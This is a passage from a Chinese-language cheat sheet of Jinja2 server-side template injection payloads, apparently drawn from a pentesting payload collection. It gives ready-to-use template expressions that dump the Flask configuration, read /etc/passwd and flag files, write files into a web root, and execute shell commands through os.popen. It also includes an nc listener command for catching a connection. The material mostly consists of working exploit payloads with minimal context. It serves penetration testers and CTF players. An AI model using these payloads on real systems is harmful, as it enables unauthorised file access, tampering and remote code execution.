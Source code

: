 访问`__globals__`和`__builtins__`：

```python
{{ self.__init__.__globals__.__builtins__ }}
```

### Jinja2 - 转储所有配置变量

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Jinja2 - 读取远程文件

```python
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

### Jinja2 - 写入远程文件

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

### Jinja2 - 远程代码执行

监听连接

```bash
nc -lnvp 8000
```
在应用程序中，`__builtins__`被过滤时，以下有效载荷是不依赖上下文的，除了存在于jinja2模板对象中之外，不需要任何东西：

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

我们可以使用这些更短的负载：

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

来源[@podalirius_](https://twitter.com/podalirius_)：https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/
